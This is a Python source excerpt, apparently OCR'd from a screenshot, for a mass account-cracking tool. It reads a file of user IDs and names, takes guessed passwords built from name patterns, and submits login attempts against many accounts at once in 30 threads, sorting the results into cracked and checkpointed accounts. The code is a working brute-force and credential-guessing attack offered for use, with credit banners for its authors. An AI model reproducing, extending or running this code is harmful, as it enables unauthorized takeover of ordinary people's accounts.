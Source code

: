 def clear():
        os.system(f'clear')
        print(logo)
loop=0
oks=[]
cps=[]
pcp=[]
id=[]
tokenku=[]
os.system('git pull')



def Fof():
	
		clear()
		print(('—'*25)+'\n• DeCoDe By @A_B_A_S64 •\n'+('—'*25))
		file = input(f' [\033[1;32m✓\033[1;37m] Put File Location [\033[1;32m❯\033[1;37m] ')
		try:
			fo = open(file,'r').read().splitlines()
		except FileNotFoundError:
			print(f' [\033[1;32mX\033[1;37m] File location Not Found ')
			exit()
		print(f' [\033[1;31m1\033[1;37m] Method \033[1;32m1\033[1;37m [\033[1;32mMix Ids\033[1;37m] \n [\033[1;31m2\033[1;37m] Method \033[1;32m2\033[1;37m [\033[1;32mMexico Ids\033[1;37m] \n [\033[1;31m3\033[1;37m] Method \033[1;32m3\033[1;37m [\033[1;32mIndia Ids\033[1;37m] \n [\033[1;31m4\033[1;37m] Method \033[1;32m4\033[1;37m [\033[1;32mBd Ids\033[1;37m]  ')
		mthd=input(f' [\033[1;32m✓\033[1;37m] Choice : ')
		plist=[]
		try:
			ps_limit = int(input(f' [\033[1;32m?\033[1;37m] How Many Passwords • عدد ڪـلمات السر [\033[1;32m⟩\033[1;37m] '))
		except:
			ps_limit =1
		print(f' [\033[1;32m•\033[1;37m] Example • مـثال \033[1;36mfirst last,firtslast,first123 \033[1;37m')
		for i in range(ps_limit):
			plist.append(input(f' [\033[1;32m✓\033[1;37m] Put password {i+1}[\033[1;32m❯\033[1;37m] '))
		print(f' [\033[1;32m?\033[1;37m] Do You Went Show CP IDs (y/n): ')
		cx=input(f' [\033[1;32m✓\033[1;37m] Choice : ')
		if cx in ['n','N','no','NO','2']:
			pcp.append(f'n')
		else:
			pcp.append(f'y')
		with tred(max_workers=30) as crack_submit:
			clear()
			total_ids = str(len(fo))
			print(f' Total Account : \033[1;32m'+total_ids+f' \n \033[1;37mMethod : \033[1;32mM{mthd}\033[1;37m')
			print(f"\033[1;36m  VIP »»»»» \033[1;32m @U7M_U | IG: bxbt_ | @MMMKJH  \033[1;31m ANONYMOUS")
			linex()
			for user in fo:
				ids,names = user.split('|')
				passlist = plist
				if mthd in ['1','01']:
					crack_submit.submit(m1,ids,names,passlist)
				elif mthd in ['2','02']:
					crack_submit.submit(m2,ids,names,passlist)
				elif mthd in ['3','03']:
					crack_submit.submit(m3,ids,names,passlist)
				elif mthd in ['4','04']:
					crack_submit.submit(m4,ids,names,passlist)
				#elif mthd in ['5','05']:
					#crack_submit.submit(m5,ids,names,passlist)
				#elif mthd in ['6','06']: